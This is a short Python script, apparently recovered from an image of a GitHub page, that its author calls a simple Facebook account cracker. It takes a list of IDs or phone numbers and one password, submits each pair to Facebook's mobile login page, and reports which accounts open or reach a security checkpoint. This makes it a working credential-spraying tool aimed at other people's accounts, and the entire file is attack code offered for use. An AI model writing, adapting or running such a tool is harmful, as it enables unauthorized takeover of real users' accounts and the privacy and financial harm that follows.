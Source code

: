 # mrjulong
import requests
import sys
import argparse
import os

parser = argparse.ArgumentParser(description="tools sederhana crack facebook")
parser.add_argument("-l", "--list",type=str, help="ID listor phone")
parser.add_argument("-p", "--password", type=str, help="Password to crack")
args = parser.parse_args()

jumlah = 0

def main():
	global jumlah
	id = args.list
	pwd = args.password
	url = "https://m.facebook.com/login.php"
	list = open(id, "r").readlines()
	for email in list:
		email.split()
		data = {"email":email, "pass":pwd}
		r = requests.post(url, data=data).url
		jumlah += 1
		if "m_sess" in r or "save-device" in r:
			print("[+] found : %s ~ %s"%(email,pwd))
			
		if "checkpoint" in r:
			print("[*] checkpoint %s ~ %s"%(email,pwd))
			
		print("\r[~] crack akun %s|%s"%(jumlah,len(list))),;sys.stdout.flush()
	
if args.list == None or args.password == None:
	os.system("python2 mbf.py -h")
else:
    main()


